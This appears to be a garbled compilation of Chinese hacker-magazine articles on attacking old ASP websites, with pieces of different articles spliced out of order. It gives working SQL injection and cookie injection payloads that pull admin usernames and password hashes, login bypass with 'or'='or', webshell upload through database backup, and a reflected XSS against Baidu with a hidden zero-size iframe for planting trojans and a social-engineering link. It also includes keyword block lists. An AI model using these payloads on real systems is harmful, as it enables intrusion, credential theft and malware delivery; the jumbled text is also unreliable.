
图 10 猜解密码

这里还有好些文件是这样的情况，就不一一列举了！我就在想，这里作者不是写了一个 `Chkrequest()` 函数吗？为什么就不知道用呢？真是一个函数引发的血案，又不知道有多少网站要惨遭涂炭了！不管了。如果你运气好，密码破解出来后就能进入后台了！我们再来看看后台的安全怎么样！

```asp
if session("globalecmaster")="" or session("masterflag")="" then
response.write "<script language='javascript'>"
response.write"parent.location.href='login.asp';</SCRIPT>"
```



从本文可以学到：
- 94xhcms 漏洞分析



最近好累啊，上届的高 3 走了，就轮到小菜这届准备走向地狱了，我这人成绩本来不是很好，数学差的一塌糊涂，英语还算好，这不是卖国啊！！暑假补习下数学，各位大牛们也得抓紧时间学习，学习第一嘛。要坚持具体问题具体分析，要把握重点论的思想，要一分为二地看问题，要坚持……晕了，背政治背得脑子也进水了。



在 `admin/login.asp` 文件中有这样一段代码：

```asp
<%
session("cid") = ""
session("cname") = ""
response.Cookies("cname") = ""
response.Cookies("cid") = ""
if dpost="ok" then
if code <> session("code") then
showmsg "验证码错误！","login.asp"
end if
response.end
end if
%>
```

以上代码运用了 session 判断，看来 cookies 欺骗是没有什么可能了，如果是虚拟机的话可以考虑 session 欺骗，其他的和前面的系统基本是相同的，也可以备份数据库，还可以上传文件，而且备份的时候可以更改路径，如图 11，得到一个 webshell 应该很容易！


图 11 备份 webshell

# 写在最后

每一次写的东西都差不多，想写出点新的东西自己又没有哪个能力，只能和朋友们一起温故一些已经快写烂了的东西。技术都是一样，不同的只是个人的经验和心得，也期望着某一天能知点新吧！这里也希望那些写网站的人们买本《黑手》看，这样他们能写出好的东西，而我们则也必须要去挖掘新的漏洞了（加油中国）！

> 编辑点评：
> 比较熟悉的东西，漏洞比较多，利用方法也各有不同，但是原理都是差不多的，大家看仔细了。

```asp
set rs = conn.execute("select * from cuser where logname = '"&username&"' and logpass = '"&md5(password)&"'")
if rs.eof then
showmsg "用户名或密码错误！","login.asp"
else
session("cid") = rs("id")
session("cname") = rs("logname")
response.Cookies("cname") = rs("logname")
response.Cookies("cid") = rs("id")
showmsg 0,"index.asp"
end if
end if
%>
```

他先清除了 session，接着开始获取用户名和密码，数据库能找到就让你进后台。看了下，这个是 94xcms 的系统，用 `'or'='or'` 就能进了，看了下包含文件 `/inc/inc.asp`，里面有一大堆的函数，代码如下：

```asp
function checkstr(str)
str=replace(str,"""","&quot;")
str=replace(str,"%","%")
str=replace(str,"from"," F rom")
str=replace(str,"select"," S elect")
str=replace(str,"update"," U pdate")
str=replace(str,"insert"," I nsert")
checkstr=str
end function
```

昏倒，作者也不完善下，至少让普通的小菜不那么简单就进去嘛。


```asp
function checkstr(str)
str=replace(str,"""","&quot;")
str=replace(str,"%","%")
str=replace(str,"from"," F rom")
str=replace(str,"select"," S elect")
str=replace(str, "update", " U pdate")
str=replace(str, "insert", " I nsert")
checkstr=str
end function
```

至少把单引号加进去，然后在 `login.asp` 里修改 `set rs = conn.execute("select * from cuser where logname = '"&checkstr(username)&"' and logpass = '"&md5(password) &"'")`，这样就能减少问题的产生了。

# 三、实战官方



去官方看了下，漏洞存在，顺便截图如图 1、图 2。

这系统代码写得很凌乱，通用的注入文件，也就是说 cookie 也能注入。但是后台的那个问题更大，没防御好，别人就能乱进了，然后拿到 shell 就可以挂马啥的。对一些变量要严格监督啊！！总之，安全是在意识上的，既然是 cms，就要对广大的用户建立一个基础的安全保障。这样的东西自己也不检查下就丢出来了，很可恶的！！！大家继续看代码吧，提高自己的实力，多点像样的 scriptkids 来维护代码的安全（貌似把自己吹得有点高了）。



修补的临时方案如下：

```asp
function checkstr(str)
  str=replace(str, "'", "''")
  str=replace(str, """", "&quot;")
  str=replace(str, ";", "")
  str=replace(str, "%", "%")
  str=replace(str, "from", " F rom")
  str=replace(str, "select", " S elect")
  ' ... 其余替换逻辑
end function
```

> 编辑点评：
> 小系统，大漏洞。

# 超另类的百度跨站
Zarich

从本文可以学到：
- 百度的一个跨站分析
- 社会工程学的一些思路


今天来到百度逛逛，搜些东西，后来来到百度百科，不小心被我发现一个不常见的漏洞，于是有了本文。

当时我正在用关键字“广东高考作文”搜索今年的高考作文，因为我妹妹高考（呵呵，我这个哥哥怎么样）。知道作文题目是：《不要轻易说“不”》后，我正好想去百度百科搜点东西，大家都知道它的网址是：`http://baike.baidu.com/`。因为我是个大懒虫，所以没有重新打开一个窗口输入百度百科的网址，而是将百度搜完关键字“广东高考作文”后的网址：`http://www.baidu.com/s?wd=%B9%E3%B6%AB%B8%DF%BF%BC%D7%F7%CE%C4` 中的三个 `www` 改成 `bk`，接着提交。这时网页页面只显示出：`http://baike.baidu.com/search_noitem?word=%B9%E3%B6%AB%B8%DF%BF%BC%D7%F7%CE%C4` 这个网址，如图 1。



我想应该是出错了吧？出错了可能存在安全隐患哦！当我看到地址栏中 `http://bk.baidu.com/` 后面跟 `s?wd=%B9%E3%B6%AB%B8%DF%BF%BC%D7%F7%CE%C4&tn=index88_pg&bar=` 时，我想 `s?wd=` 后面的参数会不会过滤不严？于是我试了下，在 `s?wd=` 后面输入：`<title></title><body>zarich</body>` 接着提交，这时页面中的网址前面多出了 zarich，如图 2。



呵呵，果然过滤不严，接着我在 `s?wd=` 后面输入：`<title></title><body>zarich</body><iframe src=http://google.cn/>`，这时页面出现了 google 的窗口跟我的名字，如图 3，呵呵，看到了吧。



接着我提交 `<title></title><body>zarich</body><script>alert('zarich 跨站')</script>`，页面弹出对话框，如图 4。



大家看到没有，弹出对话框啦！如果要挂马的话，在 `s?wd=</title>` 后面输入：`<iframe src=你的木马地址 width=0 height=0></iframe>`，记住 `width=0 height=0` 这个一定不要忘了写，写了隐藏性很好，表面看不出问题的。这里有一点我说一下，在 `s?wd=` 后面一定要输入 `</title>`，不然的话后面的弹出对话框，打开页面等代码是执行不了的，我试过了。

好了，这篇文章主要讲这些，下面我来伪装一个页面，忽悠别人，呵呵。

方法就是将代码 `<title></title>Hacked by zarich <iframe src=http://www.77169.com/>` 进行 url 编码成：

## 中国风行网络源码漏洞——cookie 注入的风采

紫腾恋霞

- 从本文可以学到：
- 1、中国风行网络源码漏洞分析
- 2、Cookie 注射的步骤和一般思路

2008 年，get、post 注入依然盛行，但是，由于我们这些菜鸟们的努力，大多程序员在写代码的时候基本都已经把注入给防住了，比如我们今天要说的中国风行网络源码，他就是引用了一个文件 Check_Sql.asp 来防止 get 和 post 注入。但是“道高一丈，魔高一尺”，俗话说得好，“建设永远比破坏难上加难”，当然我这里只是个比喻，而不是叫大家去搞破坏。

我们除了 get 和 post 注入，还能用什么注入呢？我想大家都猜到了，对，就是他——cookie 注入，这个让人费思不已的注入使我们又多了一个新的玩意。他的存在无疑让程序员又多了一份烦恼，多了一份害怕。

Cookie 注入在当今运用的还是蛮多，所以我们今天就来讨论一下 cookie 的风采，今天天气很闷热，在宿舍呆得很无聊，就去网上找了些源码下载，本来是想学习一个脚本，但是刚打开了个网站源码，很不好意思就让我发现了该发现的东西。

打开这个网站的源码，随便找了几个文件，基本都包含了 Check_Sql.asp 这个文件：

```asp
<!--#Include File="inc/Check_Sql.asp"-->(调用 Check_Sql.asp 文件)
```

给大家看下这个文件的代码，如图 1，图 2。相信大家一看就一目了然，这个文件就是一个防注入文件，他对 get 和 post 注入过滤得相当的详细。

```url
%3Ctitle%3E%3C%2Ftitle%3EHacked+by+zarich%3Ciframe%2520src%3Dhttp%3A%2F%2Fwww.77169.com%2F%3E
```

然后在地址栏输入：`http://bk.baidu.com/s?wd=%3Ctitle%3E%3C%2Ftitle%3EHacked+by+zarich%3Ciframe%2520src%3Dhttp%3A%2F%2Fwww.77169.com%2F%3E`

回车后可以看到弹出一个黑客网站窗口跟 Hacked by zarich 的文字，呵呵，如图 5。把这个网址发给别人看看，他们也许很惊讶的！哈哈！好的，这篇文章就到这里吧。

> 编辑点评：
> 这个问题不是很大，但是如果你的社会工程学比较好，加上 Baidu 的超级多用户群，伪装一些“邪恶”的链接，还是很有杀伤力的。

```asp
'-------定义部分 头-------
Err_Message = 1 '处理方式：1=提示信息,2=转向页面,3=先提示再转向
Err_Web = "Err.Asp" '出错时转向的页面
Query_Badword=" ' || and || select || update || chr || delete || %20from || ; || insert || mid || master. || set || chr(37) || ="
'在这里部分定义get中非法参数,使用"||"号间隔
Form_Badword="' || % || & || * || # || ( || ) || =" '在这里部分定义post中非法参数,使用"||"号间隔
'-------定义部分 尾-------
On Error Resume Next
'----- 对 get query 值的过滤.
if request.QueryString<>"" then
Chk_badword=split(Query_Badword,"||")
FOR EACH name IN Request.QueryString
for i=0 to ubound(Chk_badword)
If Instr(LCase(request.QueryString(name)),Chk_badword(i))<>0 Then
Select Case Err_Message
Case "1"
Response.Write "<Script Language=JavaScript>alert('非法错误！参数 “"&name&"” 的值中包含非法字符串！\n\n请不要在参数中出现：master 等非法字符！');window.close();</Script>"
Case "2"
Response.Write "<Script Language=JavaScript>location.href='"&Err_Web&"'</Script>"
Case "3"
Response.Write "<Script Language=JavaScript>alert('非法错误！参数 “"&name&"” 的值中包含非法字符串！\n\n请不要在参数中出现：master 等非法字符！');location.href='"&Err_Web&"';</Script>"
End Select
Response.End
End If
NEXT
NEXT
End if

'-----对 post 表单值的过滤.
if request.form<>"" then
Chk_badword=split(Form_Badword,"||")
FOR EACH name IN Request.Form
for i=0 to ubound(Chk_badword)
If Instr(LCase(request.form(name)),Chk_badword(i))<>0 Then
Select Case Err_Message
Case "1"
Response.Write "<Script Language=JavaScript>alert('出错了！表单 “"&name&"” 的值中包含非法字符串！\n\n请不要在表单中出现：！');window.close();</Script>"
Case "2"
Response.Write "<Script Language=JavaScript>location.href='"&Err_Web&"'</Script>"
Case "3"
Response.Write "<Script Language=JavaScript>alert('出错了！参数 “"&name&"” 的值中包含非法字符串！\n\n请不要在表单中出现：！');location.href='"&Err_Web&"';</Script>"
End Select
Response.End
End If
NEXT
NEXT
end if
%>
```

这段把我们 sql 注入时需要的字符都已经过滤了，所以我们提交单引号 `and 1=1` 的时候就会弹出一个对话框，如图 3。

显然就算找到了存在 sql 注入的文件，也没有办法进行注入，但是今天我们的主题是 Cookie 注入，所以就算他对 get、post 注入再做任何详细的过滤，都不会影响到我们。

首先，我们要先找到一个有注入漏洞的文件，当我打开一个 Shownews.asp 的时候，发现他的过滤做得不是很好，对 id 的变量值没有进行任何的过滤，代码从第 6 到 36 行如下：

```asp
<%owen=request("id")%>
<SCRIPT language=JavaScript>
var currentpos,timer
...... 中间代码省略
Set rsnews=Server.CreateObject("ADODB.RecordSet")
sql="update news set hits=hits+1 where id="&cstr(request("id"))
conn.execute sql
sql="select * from news where id="&owen
rsnews.Open sql,conn,1,1
title=rsnews("title")
if rsnews.eof and rsnews.bof then
response.Write("数据库出错")
else
```

获取客户提交的变量并赋值给 owen，这里没有做过滤。`sql="update news set hits=hits+1 where id="&cstr(request("id"))` 带入数据库查询，但是 id 没有进行任何过滤，只是简单的把他转换成了 string。

在这里说下 `cstr` 函数：`cstr` 函数是用来将所传递的数据类型转换为 String 型，您也可以传递类的实例，只要该类能执行用于返回 String 类型值的 Operator_Convert 方法就行。

这样子就形成了一个注入漏洞，当然我们是测试，所以我先把他的防注入文件去掉，以方便截图给大家看。我们先加一个单引号，如图 4。大家看到没有，这里返回了错误，提示数据库出错，对应了 `response.Write("数据库出错")` 这句代码。我们再加 `and 1=1` 和 `and 1=2` 看看效果，如图 5，图 6。

两次提交返回了不同的页面，这就说明了我们找到的这个文件确实是存在注入漏洞的。好了，那我把防注入代码加进去。我们开始来进行 cookie 注入，让我们一起享受一下 cookie 注入所带来的亮点。

大家都应该知道 `order by` 这个查询语句，所以我们现在就用 cookie 注入来查询他有多少字段，当然这里字段数我们要用折半法。我已经猜解好了，他有 11 个字段。提交 `order by 11`，返回正常页面，如图 7。而提交 `order by 12` 的时候返回错误页面，如图 8。

既然我们知道了它的字段，接下来就是猜解它管理员的账号密码了，打开下载下来的源码的数据库，发现他的管理员表名是 admin，列名是 username 和 password。因为他是 access 数据库，所以我们的利用代码应该这么写：

```javascript
javascript:alert(document.cookie="id="+escape("82 union select 0,1,2,3,4,5,6,7,8,9,10 from admin"))
```

把浏览器地址栏上的地址清空，然后把代码复制上去，点提交，就出现这个页面，如图 9。然后点确定，因为他的漏洞文件出现在 Shownews.asp 这个文件上，那我们自然要在地址栏上输入 `http://192.168.1.2/m/Shownews.asp` 这个地址了，然后点提交，再点一下刷新，就会出现如图 10 的页面。

大家看到了，页面上出现了 1、2 数字，对！聪明的朋友都想到了，这些显示数字的地方就是我们 union 的时候要输出数据库的地方，我们在 1 这里输出(username)，在 2 这里输出(password) 试试看，代码如下：

```javascript
javascript:alert(document.cookie="id="+escape("82 union select 0,username,password,3,4,5,6,7,8,9,10 from admin"))
```

方法和刚才我们提交的一样，提交后出现如图 11 的界面。好，我们提交 `http://192.168.1.2/m/Shownews.asp`，然后点提交，刷新一下，大家就会看到在原先 1 和 2 数字的位置出现了管理员的账号和 md5 加密的密码，如图 12。接着进入后台上传一个 jpg 的木马，然后备份就能成功得到一个 webshell，相信大家都会。

当然这个系统源码不止一个文件存在注入漏洞，我想应该是他的程序员想，反正我每一个文件都加个防注入就好了，所以他的文件基本都没有进行过滤。我在《黑客手册》的 id 是 woaixialaopo，希望能和大家一起交流，一起学习，一起进步。

> 编辑点评：
> Cookie 注射的出现到今天已经有些时日了，以往的杂志上也陆续的有这方面的文章刊出，但是比起 Get 和 Post 方式的注射， Cookie 注射尚未引起程序作者的注意，或许每种漏洞从爆出到被认可和关注是需要一段时间的，我们还将继续以我们的“特有”方式提醒他们。

# 淮海高科酒店宾馆预定系统 V3.0 漏洞解析

### 香店谈[DRT]

- 从本文可以学到：
- 1. 淮海高科酒店宾馆预定系统漏洞分析
- 2. 漏洞的利用

## 一、注入

### 1、COOKIE 注入

#### Hotle.asp 文件：

```asp
<%Title=Trim(request("Title")) 'Title 只过滤了两边的空格
Set rs = Server.CreateObject("ADODB.Recordset")
sql="select Content from Aboutus where Title='"&Title&"'" 'Title 放入 SQL 查询
rs.open sql,conn,1,3
%>
```

Title 没有过滤就放入数据库查询，造成 SQL 注入。当我在浏览器输入’时却弹警告出来，如图 1。我再来看看包含什么文件，原来并没有包含防注入程序文件啊(防注入程序是 Check_Sql.asp)。终于找到了是 SysHouse.asp 文件包含 Check_Sql.asp 文件，Hotle.asp 文件又包含 SysHouse.asp，所以弹出警告。经常看“黑手”的朋友都知道，这个防注入程序存在 COOKIE 注入。我看了看 Check_Sql.asp 代码，存在 COOKIE 注入，这里我就不帖出来了。

### 2、SQL 注入

VisualizePic.asp 文件并没有包含防注入程序。

```asp
<%dim id
id=request.QueryString("id")%> ' 直接取得 id
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<%
set rs=server.CreateObject("adodb.recordset")
rs.open "select * from CompVisualize where id="&id,conn,1,1 ' id 放入数据库查询
%>
```

提交 AND 1=1，返回如图 2。提交 AND 1=2，什么也看不到，如图 3。看来有漏洞，接着使用阿 D 猜解，如图 4。

## 二、XSS

程序有个客户留言，当提交留言时，程序会把我们提交的信息显示出来。看看程序是怎么处理我们提交的信息的，代码如下：

```asp
<%
If request.form("CompanyName")="" Then
Response.Write("<script language=""JavaScript"">alert(""错误：您没输入公司名称，请返回检查！！"");history.go(-1);</script>")
response.end
end if
If request.form("Receiver")="" Then
Response.Write("<script language=""JavaScript"">alert(""错误：您没输入联系人，请返回检查！！"");history.go(-1);</script>")
response.end
end if
If request.form("Phone")="" Then
Response.Write("<script language=""JavaScript"">alert(""错误：您没输入联系电话，请返回检查！！"");history.go(-1);</script>")
response.end
end if
If request.form("title")="" Then
Response.Write("<script language=""JavaScript"">alert(""错误：您没输入标题，请返回检查！！"");history.go(-1);</script>")
response.end
end if
If request.form("content")="" Then
Response.Write("<script language=""JavaScript"">alert(""错误：您没输入留言内容，请返回检查！！"");history.go(-1);</script>")
response.end
end if

Add=trim(request.form("Add"))
Postcode=trim(request.form("Postcode"))
Mobile=trim(request.form("Mobile"))
Fax=trim(request.form("Fax"))
email=trim(request.form("email"))

if Add="" then Add=null
if Postcode="" then Postcode=null
if Mobile="" then Mobile=null
if Fax="" then Fax=null
if Email="" then Email=null

Set rs = Server.CreateObject("ADODB.Recordset")
sql="select * from Feedback"
rs.open sql,conn,1,3

rs.addnew
if session("username")="" then
rs("Username")="未注册用户"
else
rs("Username")=trim(request.form("Username"))
end if
rs("CompanyName")=trim(request.form("CompanyName"))
rs("Add")=Add
rs("Postcode")=Postcode
rs("Receiver")=trim(request.form("Receiver"))
rs("Phone")=trim(request.form("Phone"))
rs("Mobile")=Mobile
rs("Fax")=Fax
rs("email")=email
rs("title")=trim(request.form("title"))
rs("content")=htmlencode2(request.form("content")) ' 只有 content 经过 htmlencode2 过滤
rs("Publish")=trim(request.form("Publish"))
rs("time")=date()
Rs.update
rs.close
%>
```

很明显有跨站漏洞，我们直接提交 `<script>alert("XSS")</script>`，如图 5。还有个网上预定，也是接收我们提交的信息，也是没有过滤写入数据库，HotleDestine.asp 是处理文件，看看处理代码。

```asp
<%
dim objr,sqlstr
sqlstr= "select * from dingfang"
set objr = server.CreateObject("adodb.recordset")
objr.open sqlstr,conn,1,3
objr.addnew
objr("uname") = request.Form("guestname")
objr("xb")=request.Form("sex")
objr("rooms1")=request.Form("roomnum")
objr("phone") =request.Form("phone")
